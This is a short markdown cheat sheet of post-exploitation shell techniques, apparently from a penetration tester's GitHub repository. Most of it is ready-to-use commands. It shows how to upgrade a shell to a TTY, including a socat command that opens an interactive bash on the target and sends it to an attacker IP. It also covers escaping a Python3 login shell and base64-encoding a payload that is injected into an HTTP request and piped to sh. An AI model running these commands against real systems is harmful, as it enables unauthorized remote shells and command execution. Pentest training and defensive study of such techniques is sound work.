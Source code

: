 # Post Exploitation Shell Cheat Sheet
All techniques that I use each day during penetration testing are in this module.
## Upgrading shell to a TTY
This section of this module focuses on how to upgrade your nonTTY shell using various methods and resources located on the target system.
### Using Python:
To use Python to upgrade to a TTY from your spanwed shell do,

`python -c 'import pty; pty.spawn("/bin/bash")'`

### Using SOCAT:
To use Socat, first start the listener on the attacker machine with,

`socat file:`tty`,raw,echo=0 tcp-listen:4444`

Then, start the bind from the target machine with,

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:(attacker IP):4444`

### Using STTY:
`reset`

`export SHELL=bash`

`export TERM=xterm-256color`
## Escaping Python3 Shell
If Python3 is listed as the shell type for a user in the `/etc/passwd` file like so,
```
daniel:x:1002:1005::/home/daniel:/usr/bin/python3
```
You can simply escape the Python3 `>>>` shell with the following two commands,
```
>>> import subprocess
>>> subprocess.call("/bin/bash")
```
This might be sueful to drop you back to a normal LINUX Bash shell if required, or to make further enumeration easier.
## Encoding HTTP Request with Shell Payload
If you encounter issues while trying to send a payload with command injection ot an HTTP request, you can attempt to use Base64 to encode the payload and decode it on the server before executing it as so,
```
root@attacker-machine:~# echo '(SHELL CODE)' | base64 
KFNIRUxMIENPREUpCg==
```
Then, send the payload to the command injection like so,
```
(COMMAND 1);echo KFNIRUxMIENPREUpCg== | base64 -d | sh
```
This will decode the Base64 and run it on the server.
